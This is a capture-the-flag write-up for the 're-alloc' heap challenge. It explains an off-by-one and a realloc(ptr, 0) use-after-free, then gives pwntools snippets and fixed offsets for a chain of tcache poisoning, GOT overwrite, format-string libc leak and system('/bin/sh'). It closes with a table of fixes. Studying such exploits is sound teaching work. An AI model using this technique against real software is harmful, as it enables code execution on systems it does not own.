

**Category:** Pwn  
**Binary:** `re-alloc` (x86-64, No PIE, Partial RELRO, NX, canary, glibc 2.29)  
**Vulnerability:** `realloc(ptr, 0)` leaves a stale GOT pointer → tcache poisoning → GOT overwrite → `system("/bin/sh")`

## Summary

`re-alloc` is a minimal heap note manager with three operations backed entirely by `realloc`: alloc, reallocate, and free. Two slots (`heap[0]`, `heap[1]`) are available. The intended bug is that `reallocate(index, 0)` frees the chunk but, because `realloc` returns `NULL` on a zero-size call, the error branch leaves `heap[index]` pointing to freed memory. That stale pointer is the only primitive needed: by changing the requested chunk size between two frees of the same stale pointer, the attacker inserts the same address — `atoll@GOT` — into two separate tcache bins. Draining those bins overwrites `atoll@GOT` twice: first with `printf@PLT` to leak a libc return address, then with `system` to spawn a shell.

## Vulnerabilities

### Bug 1 — Heap off-by-one: null-byte corruption of adjacent chunk metadata

**Location:** `allocate` @ `0x401469–0x401487`

`allocate` reads exactly `size` bytes and then writes an unconditional NUL terminator at `buf[read_count]`. When the attacker fills the entire buffer (`read_count == size`), the terminator lands one byte past the allocation, clobbering the low byte of the next chunk's size field.

```c
lVar3 = read_input(heap[uVar1], __size);   // lVar3 == __size when input fills buffer
*(char *)(lVar3 + heap[uVar1]) = 0;        // heap[0][size] = '\0' -> adjacent chunk size corrupted
```

In isolation this produces a `free(): invalid pointer` abort, but it extends to arbitrary heap-layout attacks once larger allocations are staged.

### Bug 2 — Use-after-free: `realloc(ptr, 0)` stale pointer (exploited)

**Location:** `reallocate` @ `0x40155c–0x401578`

```c
pvVar2 = realloc(heap[uVar1], __size);   // __size == 0: frees heap[uVar1], returns NULL
if (pvVar2 == NULL) {
    puts("alloc error");                 // heap[uVar1] is NOT cleared — dangling pointer!
}
```

On glibc 2.29, `realloc(ptr, 0)` is equivalent to `free(ptr)` and always returns `NULL`. The error handler treats `NULL` as an ordinary allocation failure and leaves `heap[index]` unchanged. The attacker now holds a dangling pointer and can drive subsequent `reallocate` and `rfree` calls through it.

### Why glibc 2.29 makes this easy

glibc 2.29 tcache has no **safe-linking** (that arrived in 2.32) and weak double-free detection. A double-free into different size classes is completely undetected because each tcache bin tracks its own count independently. This lets the attacker enqueue the same address into two bins simultaneously — the foundation of the exploit.

## Exploit Strategy

The overall flow has five phases.

**Phase 1: Tcache Poisoning**


**Phase 2: Leak Libc**


**Phase 3: Achieve RCE**


### Phase 1 — Seed the 0x30 tcache bin with `atoll@GOT`

The stale-pointer trick is applied twice, once per tcache size class. For the `0x30` class (request size `0x28`):

1. `allocate(0, 0x28)` — gives `heap[0]` a live chunk.
2. `reallocate(0, 0)` — frees it, leaves `heap[0]` stale.
3. `reallocate(0, 0x38, p64(ATOLL_GOT))` — the stale pointer is still accepted by the `heap[0] != 0` guard; `realloc` **resizes** the freed chunk to a `0x40` bin and writes `ATOLL_GOT` as its tcache forward pointer.
4. `allocate(1, 0x28)` then `rfree(1)` — places a real chunk at the head of the `0x30` bin so the poisoned entry is second (glibc 2.29 tcache requires count ≥ 2 to serve consecutive pops without aborting on the second).
5. `reallocate(0, 0x38, p64(ATOLL_GOT))` again — reinstalls the poison after the resize.
6. `rfree(0)` — properly frees `heap[0]`, enqueuing `ATOLL_GOT` into the `0x30` tcache bin.

Phase 2 repeats the identical sequence at request sizes `0x48`/`0x58`, seeding `ATOLL_GOT` into the `0x50` bin.

### Phase 3 — Overwrite `atoll@GOT` with `printf@PLT`

Draining the `0x30` bin hands `heap[0]` the poisoned entry:

```python
allocate(0, 0x28, p64(PRINTF_PLT))
```

`heap[0]` now points at `atoll@GOT`, and the data write patches it with `printf@PLT` (`0x401070`). From this point every call that goes through `read_long()` → `atoll()` instead invokes `printf`.

### Phase 4 — Leak a libc return address

```python
# send "1\n%23$p\n" — the "Index:" prompt triggers read_long()
# atoll@GOT now points to printf, so printf("%23$p") runs
# %23$p is the return address inside __libc_start_main on the stack
leak = int(io.recvline().strip(), 16)
libc_base = leak - libc.sym['__libc_start_main'] - 0xEB
```

The format-string argument `%23$p` reaches the saved `__libc_start_main+0xeb` return address on the stack. Subtracting the fixed delta gives a page-aligned libc base.

### Phase 5 — Overwrite `atoll@GOT` with `system` and get a shell

The `0x50` bin still holds `ATOLL_GOT` as its next pointer. A second `allocate` drains it — but `atoll` is now `printf`, so the index and size inputs must be sent as raw format strings that produce the correct integer return values:

```python
io.sendafter(b"Index:", b"%c")     # printf prints 1 byte → returns 1 (heap[1])
io.sendafter(b"Size:",  b"%72c")   # printf prints 72 bytes → returns 72 (0x48 request)
io.sendafter(b"Data:",  p64(system_addr))
```

Trailing newlines must be suppressed: `sendlineafter` would append `\n`, making printf's return value `2` or `73` instead of `1` or `72`, selecting the wrong slot or size.

With `atoll@GOT → system`, the next `read_long()` call executes `system(buf)` where `buf` is the user's input:

```python
io.send(b"/bin/sh\x00")   # read_long() reads into local_28, calls system("/bin/sh")
```

## Memory Layout at Key Checkpoints

<style>
@keyframes tcache-write {
  0%   { background: rgba(60,60,60,0.15); }
  60%  { background: rgba(220,80,80,0.45); }
  100% { background: rgba(220,80,80,0.30); }
}
@keyframes got-patch {
  0%   { background: rgba(60,60,60,0.15); }
  60%  { background: rgba(255,165,0,0.55); }
  100% { background: rgba(255,165,0,0.35); }
}
@keyframes got-system {
  0%   { background: rgba(60,60,60,0.15); }
  60%  { background: rgba(100,200,100,0.55); }
  100% { background: rgba(100,200,100,0.35); }
}
.mem-tbl { border-collapse: collapse; font-family: monospace; font-size: 0.85em; width: 100%; margin: 1em 0; }
.mem-tbl td, .mem-tbl th { border: 1px solid rgba(128,128,128,0.4); padding: 4px 10px; }
.mem-tbl th { background: rgba(128,128,128,0.12); }
.tc30  { animation: tcache-write 0.8s ease-out 0.3s both; }
.tc50  { animation: tcache-write 0.8s ease-out 0.9s both; }
.got1  { animation: got-patch    0.8s ease-out 1.5s both; }
.got2  { animation: got-system   0.8s ease-out 2.1s both; }
</style>

<table class="mem-tbl">
<thead><tr><th>Checkpoint</th><th>0x30 tcache head</th><th>0x50 tcache head</th><th>atoll@GOT (0x404048)</th></tr></thead>
<tbody>
<tr><td>After phase 1</td><td class="tc30">→ atoll@GOT</td><td>empty</td><td>atoll (libc)</td></tr>
<tr><td>After phase 2</td><td class="tc30">→ atoll@GOT</td><td class="tc50">→ atoll@GOT</td><td>atoll (libc)</td></tr>
<tr><td>After phase 3</td><td>drained</td><td class="tc50">→ atoll@GOT</td><td class="got1">printf@PLT</td></tr>
<tr><td>After phase 5</td><td>drained</td><td>drained</td><td class="got2">system (libc)</td></tr>
</tbody>
</table>

## Exploit Interaction (sequence)



## Derived Constants

| Constant | Value | Source |
|---|---|---|
| `ATOLL_GOT` | `0x404048` | Non-PIE GOT, fixed |
| `PRINTF_PLT` | `0x401070` | PLT stub, fixed |
| `%23$p` delta | `__libc_start_main + 0xEB` | Stack frame offset, verified locally |
| `libc.sym['system']` | `0x52fd0` | glibc 2.29 |

## Fix / Mitigations

| Issue | Fix |
|---|---|
| Stale pointer after `realloc(ptr, 0)` | Always clear `heap[index] = NULL` before checking the return value |
| GOT writeable (Partial RELRO) | Enable Full RELRO to make the GOT read-only after startup |
| No safe-linking | Upgrade to glibc ≥ 2.32 (pointer mangling in tcache) |
| Off-by-one terminator | Reserve `size + 1` bytes so the NUL terminator has room |
